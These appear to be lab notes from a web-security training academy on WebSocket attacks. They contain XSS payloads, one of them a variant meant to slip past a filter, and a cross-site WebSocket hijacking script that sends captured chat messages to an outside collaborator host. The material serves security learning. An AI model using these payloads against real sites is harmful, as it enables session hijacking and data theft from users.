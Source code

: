 ### Manipulating WebSocket messages
    For XSS: <img src=1 onerror='alert(1)'>
    To bypass XSS filter: <img src=1 oNeRrOr=alert`1`>
### Cross-site WebSocket hijacking
####  Exploit
```js
<script>
    var ws = new WebSocket('wss://0a820003036953d283898de6004b0013.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://agus9fqks1acunox6p9wrogmndt4hv5k.oastify.com', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```

